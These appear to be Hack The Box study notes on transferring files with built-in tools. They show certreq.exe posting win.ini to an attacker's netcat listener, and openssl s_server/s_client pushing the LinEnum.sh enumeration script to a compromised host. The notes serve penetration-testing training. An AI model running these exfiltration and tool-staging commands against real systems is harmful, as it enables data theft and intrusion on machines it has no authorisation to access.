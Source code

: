 https://lolbas-project.github.io/#
https://gtfobins.github.io/

#### Upload win.ini to our Pwnbox
```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```
#### File Received in our Netcat Session
```shell-session
AhmaDb0x@htb[/htb]$ sudo nc -lvnp 8000
```
If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.


#### Stand up the Server in our Pwnbox

```shell-session
AhmaDb0x@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

```shell-session
AhmaDb0x@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

#### Download File from the Compromised Machine
```shell-session
AhmaDb0x@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

